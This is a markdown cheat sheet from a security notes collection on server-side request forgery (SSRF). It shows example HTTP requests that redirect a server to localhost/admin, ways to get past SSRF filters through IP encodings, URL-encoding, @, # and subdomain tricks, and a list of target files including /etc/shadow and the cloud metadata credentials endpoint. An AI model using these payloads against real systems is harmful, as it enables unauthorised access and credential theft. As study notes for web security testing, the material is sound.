 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

Need to research Blind SSRF vulnerabilities on portswigger.net
Sometimes the server checks for headers for links.

# Server Side Request Forgery(SSRF)

SSRF happens when a server accepts arguments in the form of URLs or URL paths which can allow an attacker to trick the server into loading URLs that it normally wouldn't want to.
- Cause the server to send back information from other internal servers
- Cause the server to connect to an attacker's eternal websites

Ex: A website accepts a URL as an argument in its body
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

The URL argument can be modified to point to `/admin`, which gives access to the admin page for the attack.
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

The attacker wouldn't normally have access to this page, but because the server itself goes to that path, it does have access and then sends the page to the client/attacker.
- You can often go to certain pages, but you won't be given access. This is a way to get around that.
- It is a way to get around restricted sites.

## Common domains
- `localhost`
- loopback addresses: `127.0.0.1` - `127.255.255.255`
- private addresses: `10.0.0.0` - `10.255.255.255.255`, `172.16.0.0` - `172.31.255.255`, and `192.168.0.0` - `192.168.255.255`
	- You have to check each of these individually because you don't know what other devices are on their private network

## Get around common SSRF filters
- Alternatives to `127.0.0.1` like `2130706433`(decimal representation), `017700000001`(octal representation), or `127.1`.
- Register a domain name that resolves to `127.0.0.1`
	- Use A record
	- Try changing protocols from `https` to `http`
- URL encoding or case variation
	- It is often worth trying to double encode special characters. Like `#` double encoded as `%2523` or `:` as `%253A`

Sometime SSRF filter only allow URLs that contain or start with permitted values. Here are some tips to get around that:
- Using the @ symbol so the username or password can bypass the filter, but not change the actual domain. This takes the format of `username:password@domain`
	- Ex: `https://permitted-value:fakepassword@127.0.0.1` or `https://fakeusername:permitted-value@127.0.0.1`
	- Sometimes arguments take in URL paths and concatenate those paths onto the `localhost`
		- Ex: `http://localhost:80 + parameter` or `http://localhost + parameter`
		- parameter = `@197.168.0.12/admin` or `:fakepassword@197.168.0.12/admin`
		- Output = `http://localhost:80@197.168.0.12/admin` or `http://localhost:fakepassword@197.168.0.12/admin`
- Using the # symbol so the permitted value is in the fragment identifier and thus passes the filter, but doesn't change the domain.
	- Ex: `https://127.0.0.1#permitted-value`
	- This works if the URL needs to contain one of the permitted values, but doesn't need to start with it.
- Using sub-domains so the permitted-value is in the subdomain, but doesn't effect the actual domain being searched.
	- Ex: `https://permitted-value.127.0.0.1`
- You can combine each of these approaches
	- Ex: `http://localhost%2523username@stock.weliketoshop.net/admin`

## Common files to search for
- /etc/passwd
- http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
	- It might not be admin. It could be any other file name. Maybe try a brute force attack to try all combinations.
		- Try s3access, role, ec2-instance, web-server, lambda-executor, default-role
- /etc/hostname
- /etc/shadow
- /etc/hosts
- /etc/resolv.conf
- /etc/mysql/my.cnf
- /etc/postgresql/pg_hba.conf
- /etc/nginx/nginx.conf
- /etc/apache2/apache2.conf